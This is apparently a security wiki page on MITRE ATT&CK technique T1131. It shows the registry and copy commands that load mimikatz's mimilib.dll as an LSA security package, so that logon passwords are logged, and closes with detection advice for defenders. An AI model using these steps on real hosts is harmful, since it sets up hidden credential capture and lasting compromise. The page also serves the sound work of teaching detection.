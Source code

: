 ```yaml
---
description: Persistence
---
```


# T1131: Authentication Packages

This technique abuses Windows Authentication Packages and injects a DLL into the LSA process. For this, mimikatz library mimilib.dll will be used. It will serve as a keylogger and save logon passwords next time someone will attempt a logon to the compromised host.

## Execution

Copying the evil DLL:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Check which LSA Security Packages are already on the list:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Add mimilb to the Security Support Providers:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
Value Security Packages exists, overwrite(Yes/No)? y
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The below shows the screens of the Security Packages registry value with the **mimilib** injected and the kiwissp.log file with a redacted password that had been logged during the user logon:

![](../.gitbook/assets/lsa-security-packages.png)

## Observations

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` key for changes. Newly added packages should be inspected:

![](../.gitbook/assets/lsa-commandline.png)

![](../.gitbook/assets/lsa-security-packages.png)

As expected, mimilib.dll can be observed in the list of DLLs loaded by the lsass.exe process, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor for any new DLLs being loaded:

![](../.gitbook/assets/lsa-loaded-dll.png)

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" %}

{% embed url="https://adsecurity.org/?p=1760" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" %}

